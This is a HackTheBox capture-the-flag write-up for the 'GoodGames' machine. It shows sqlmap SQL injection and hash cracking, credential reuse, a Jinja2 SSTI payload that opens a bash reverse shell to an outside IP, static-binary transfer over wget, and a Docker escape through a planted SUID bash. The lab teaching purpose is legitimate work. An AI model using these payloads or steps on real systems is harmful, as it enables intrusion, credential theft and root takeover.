







# GoodGames — HackTheBox

| Field      | Value              |
|------------|--------------------|
| Platform   | HackTheBox         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | SQLi, SSTI, Docker escape, SUID, Internal network pivoting |

---

## 1. Reconnaissance

Started with a full service scan using `-sV` and `-sC` to detect service versions and run default NSE scripts.

```bash
nmap -sV -sC 10.129.33.160
```


Only one port open: **80/tcp (HTTP)**. No SSH exposed externally, no FTP, nothing else. This means the entire attack surface begins and ends with the web application. The HTTP title returned by nmap identified the site as "GoodGames Community" — a video game store/community portal.


The site looked like a standard storefront. The interesting parts from an attacker's perspective are always the areas that accept user input — login forms, search bars, profile fields. The login page was the first target.

---

## 2. SQL Injection

A login form was visible on the main page. Before attempting any credentials, the right move is to capture the HTTP request in Burp Suite and analyze it. This gives us the exact parameters being sent, the endpoint, and the request method — all necessary for running automated tools like sqlmap.




With the request saved to a file (`sqlfile`), we fed it to sqlmap. The `-r` flag tells sqlmap to use our captured request instead of constructing one from scratch, which is far more reliable because it includes cookies, headers, and the exact POST body the server expects.

```bash
sqlmap -r sqlfile --dbs --batch
```

The `--batch` flag makes sqlmap non-interactive, accepting default answers to any prompts. This is useful for automation.


sqlmap confirmed the login parameter was injectable and found the database `main`. Next step: enumerate its tables.

```bash
sqlmap -r sqlfile -D main --tables --batch
```


The `user` table stood out immediately. Dumped its contents, specifically the `email` and `password` columns:

```bash
sqlmap -r sqlfile -D main -T user -C "email,password" --dump --batch
```


Result: `admin@goodgames.htb` with hash `2b22337f218b2d82dfc3b6f77e7cb8ec`. The format — 32 hex characters — is a classic MD5 hash. Cracked it offline with hashcat using the rockyou wordlist:

```bash
hashcat -m 0 2b22337f218b2d82dfc3b6f77e7cb8ec /usr/share/wordlists/rockyou.txt
# 2b22337f218b2d82dfc3b6f77e7cb8ec:superadministrator
```

MD5 is cryptographically broken and should never be used for passwords. The hash cracked in seconds.

---

## 3. Admin Panel & Hidden Subdomain

With `admin` / `superadministrator`, we logged into the main site.


The dashboard itself didn't reveal much. At this point, most pentesters click through the UI looking for functionality. But one of the most overlooked techniques is reading the **page source** — developers often embed internal URLs, API endpoints, or configuration references in HTML comments or `href` attributes that aren't rendered visibly.

Viewing source on the admin profile page revealed a reference to an internal subdomain:

```
http://internal-administration.goodgames.htb
```




This subdomain doesn't resolve via public DNS — it's an internal hostname. To reach it from our attacker machine, we add it to `/etc/hosts`, which maps the hostname to the box's IP address locally without touching DNS:

```
<IP>  goodgames.htb internal-administration.goodgames.htb
```


Accessing the internal URL revealed a separate admin interface built on Flask Volt — a different application entirely from the public site.


Attempted credential reuse with the same `admin` / `superadministrator` combination. This is always worth trying: administrators frequently reuse passwords across systems, especially for internal tools they consider "safe" because they're not publicly exposed.


It worked. We now had admin access to an internal Flask application.

---

## 4. Server-Side Template Injection (SSTI)

The internal panel's profile page had a **Full Name** input field. The backend was Python/Flask, which commonly uses the Jinja2 template engine. When user input is embedded directly into a Jinja2 template without sanitization, the template engine will evaluate it — this is SSTI.

The detection approach mirrors XSS testing: inject a template expression and see if it gets evaluated rather than printed as-is.

```
{{5*5}}
```

If the output shows `25` instead of `{{5*5}}`, the field is injectable.




The output was `25` — confirmed vulnerable. From here, SSTI in Jinja2 can be escalated to remote code execution by walking up the Python object hierarchy to reach `os.popen()`.

Set up a listener on port 4444:

```bash
nc -lvp 4444
```



Crafted the reverse shell payload and entered it in the Full Name field:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.63/4444 0>&1"').read() }}
```

This payload imports the `os` module through Python's built-in `__import__`, then uses `popen` to execute a bash reverse shell. Reference: [PayloadsAllTheThings — SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)




We received a shell as `root`. However, this is not root on the actual host — it's root inside a Docker container. The shell prompt and network configuration make this obvious.


### User Flag

The user flag was accessible from inside the container, in augustus's home directory — which is mounted from the host:

```bash
cat /home/augustus/user.txt
```



---

## 5. Privilege Escalation — Docker Escape

Being root inside Docker is powerful but limited — Docker containers are isolated from the host by default. The goal now is to break out of the container and get a root shell on the actual machine.

### Step 1 — Map the internal network

A `Dockerfile` in `/backend` confirmed Docker usage. Checked the container's network interface:

```bash
ip addr
# eth0: 172.19.0.2/16
```

The gateway `172.19.0.1` is the Docker host — the real machine. To confirm which ports are open on it, we need nmap. The container doesn't have it installed, but we can transfer a static binary — a self-contained nmap that doesn't depend on any libraries on the target system.

```bash
# On Kali — serve the binary
python3 -m http.server 80

# On target — download and make executable
wget 10.10.14.63/nmap
chmod +x nmap

# Ping sweep to find live hosts
./nmap -sn 172.19.0.0/16

# Port scan the host
./nmap 172.19.0.1 -v
```



SSH is open on the host. This is the entry point.

### Step 2 — SSH to host as augustus

Augustus's home directory is mounted inside the container at `/home/augustus`. We can read files there, so we know the user exists on the host. The `superadministrator` password was reused across the web apps — worth trying for SSH too.

```bash
ssh augustus@172.19.0.1
# password: superadministrator
```


We're on the real host now, but as a low-privileged user. Augustus cannot run sudo, cannot write to system directories, and cannot change ownership of files.

### Step 3 — Plant a SUID bash binary from Docker

Here's the key insight: **Augustus's home directory is mounted inside the Docker container, and inside Docker we are root.** This means we can write files into `/home/augustus/` from Docker with root ownership — and those files will appear on the host with root ownership.

The attack chain:
1. From Docker root — copy `/bin/bash` into the mounted home directory
2. Set ownership to `root:root`
3. Set the SUID bit (`4777`) — any user who executes this binary will run it as root

```bash
# Inside Docker (running as root)
cp /bin/bash /home/augustus/bash
chown root:root /home/augustus/bash
chmod 4777 /home/augustus/bash
```


The `4777` permission breaks down as: `4` = SUID bit, `7` = owner (root) rwx, `7` = group rwx, `7` = others rwx. The SUID bit means the binary executes with the file owner's privileges (root) regardless of who runs it.

### Step 4 — Execute SUID bash on the host

Back in the augustus SSH session:

```bash
./bash -p
```

The `-p` flag tells bash to preserve the elevated SUID privileges instead of dropping them (bash drops SUID by default as a security measure when the effective UID doesn't match the real UID).

```bash
whoami
# root

cat /root/root/root.txt
```


---

## 6. Key Takeaways

**Read page source, not just the rendered UI.** The internal subdomain was only discoverable by viewing HTML source — nothing in the UI hinted at its existence.

**Test credential reuse aggressively.** Every credential recovered should immediately be tested against SSH and any other login form found. Administrators frequently reuse passwords for "internal" tools they consider low-risk.

**SSTI escalates to RCE in Jinja2** when input is not sanitized. Detection is simple (`{{5*5}}`), and the path to RCE via `__import__('os').popen(...)` is well-documented.

**Docker root + mounted host directory = host privilege escalation.** If you find a user's home directory mounted into a Docker container where you are root, you can plant a SUID binary with root ownership. The host's filesystem will reflect that ownership, and the low-privilege user on the host can execute it to get a root shell.

**Static binaries enable post-exploitation on minimal containers.** Tools like nmap, curl, and nc may not be available inside Docker containers. Static binaries are self-contained and can be transferred and executed without any dependencies on the target.
